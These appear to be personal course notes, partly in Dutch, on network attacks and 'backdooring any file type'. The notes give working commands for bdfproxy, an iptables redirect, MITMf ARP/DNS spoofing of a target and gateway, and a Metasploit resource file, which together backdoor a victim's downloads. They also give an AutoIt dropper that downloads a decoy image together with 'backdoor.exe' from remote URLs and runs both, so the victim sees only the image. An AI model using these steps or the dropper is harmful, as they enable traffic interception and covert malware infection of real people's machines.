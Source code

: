 `> leafpad /etc/bdfproxy/bdfproxy.cfg`
proxyMode = transparent
Host aanpassen naar eigen ip
`> bdfproxy`

(andere terminal)
```
> iptables -t nat -A PREROUTING -p -tcp --destination-port 80 -j REDIRECT --to-port 8080
> mitmf --arp --spoof --gateway ... --target ... -i eth0 --dns
```

(andere terminal)
`> msfconsole -r /usr/share/bdfproxy/bdfproxy_msf_resource.rc` (link staat waar bdfproxy draait)

Target download programma

# Social Engeneering

https://drive.google.com/uc?export=download&confirm=oLcO&id=16C95FI7yq4Uh82KgQ2Cg8H5-3jz4Umaz
Download Maltego met alle opties gratis

Run met /opt/maltegoce/bin/maltego

maak username en pw

## Backdooring Any File Type

Using an already created backdoor (see above) 
```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = @TempDir & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```
* Local URL's: the file you want the target to see, needs to be online (on a server)
 First eg: "imageurl.jpg, backdoor.exe"
 